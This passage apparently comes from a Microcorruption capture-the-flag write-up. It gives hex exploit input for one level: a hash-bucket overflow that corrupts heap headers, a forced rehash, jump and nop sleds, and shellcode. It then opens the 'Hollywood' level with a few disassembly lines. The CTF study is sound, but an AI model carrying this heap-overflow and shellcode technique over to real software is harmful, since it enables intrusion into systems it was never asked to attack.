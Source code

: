 # overflow bucket 1 to mangle headers of bucket 2
6e657720303f9e4cb50720303b

# trigger rehash (therefore overwrite)
6e6577202520303b
6e6577203520303b
6e6577204520303b
6e6577205520303b
6e6577206520303b
6e6577207520303b
6e6577208520303b
6e6577209520303b
6e657720a520303b
6e657720b520303b
6e657720c520303b
6e657720d520303b
6e657720e520303b
6e657720f520303b
6e6577200620303b
6e6577201620303b
6e6577202620303b
6e6577203620303b
6e6577204620303b
6e6577205620303b


# trigger "user already exists, jumping to shellcode from overwritten call target"
6e6577201020303b

# make shellcode look like username
6e657720

# "jmp" sled that will avoid garbage instructions

043c043c043c043c043c043c043c043c043c043c043c043c043c043c043c043c043c043c043c043c043c

# "nop" sled of inc r4

14531453145314531453145314531453145314531453

# shellcode
3f40017f1f838f100f12b012ec4c
```

And we're in.  


## 19. Hollywood

The code is at least mercifully shorter:

```
0010 <__trap_interrupt>
0010:  3041           ret
4400 <main>
4400:  013c           jmp	#0x4404 <main+0x4>